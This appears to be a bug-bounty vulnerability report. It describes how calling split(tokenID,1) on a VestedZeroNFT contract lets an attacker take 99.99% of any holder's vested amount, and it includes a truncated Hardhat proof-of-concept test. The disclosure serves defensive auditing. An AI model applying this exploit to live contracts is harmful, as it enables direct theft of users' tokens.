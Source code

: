 ```solidity 
```

So the function just checks that the owner is not zero. 

So the attacker can use this function to steal most fraction of the VestedZeroNFT tokenID. 

The attacker can call 
```solidity
split(tokenID,1)
```
For the tokenID, the attacker can use any existed tokenID. 

The fraction is 1 to steal most of current tokenID to mint a new tokenID for the attacker. 

For example, if Ant has a tokenID for example = 2 that: 
pending = 10_000 * 10**18 

After the hack, 
The tokenID = 2 
pending = 1 * 10**18 

The hacker new minted tokenID has 

pending = 9999 * 10** 18 

So 99.99% amount of pending of Ant's tokenID was stolen by the attacker. 

The attacker can steal from tokenID of any owner, including the StakingBonus contract. 

# Impacts
# About the severity assessment

So the bug allow attackers to steal the VestedZeroNFT token of users.  
So the Severity is Critical with Category: Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties



# Proof of Concept

Test code POC: 
```typescript
it("Direct theft of ZeroVestedNFT", async function () {
    console.log("Create the pre-condition setup for attack: User Ant has 1 VestedZeroNFT");
    let lastTokenId = await vest.lastTokenId();
    console.log("The address of the owner of the lastTokenId: ", await vest.ownerOf(lastTokenId));
    console.log("The address of StakingBonus contract: ", stakingBonus.target.toString());

    console.log("Mint a VestedZeroNFT for Ant by calling mint() function of VestedZeroNFT contract"); 
    tokenId = await vest.mint(
      ant.address,
      e18 * 10000n, // 10000 ZERO linear vesting
      0, // 0 ZERO upfront
      1000, // linear duration - 1000 seconds
      0, // cliff duration - 0 seconds
      now + 1000, // unlock date
      false, // penalty -> false
      0
     );

    
    console.log("Zero balance of Ant", await zero.balanceOf(ant.address));
    console.log("Zero balance of vestZeroNFT contract", await zero.balanceOf(vest.target));
    lastTokenId = await vest.lastTokenId();
    console.log("Ant address: ", ant.address);
```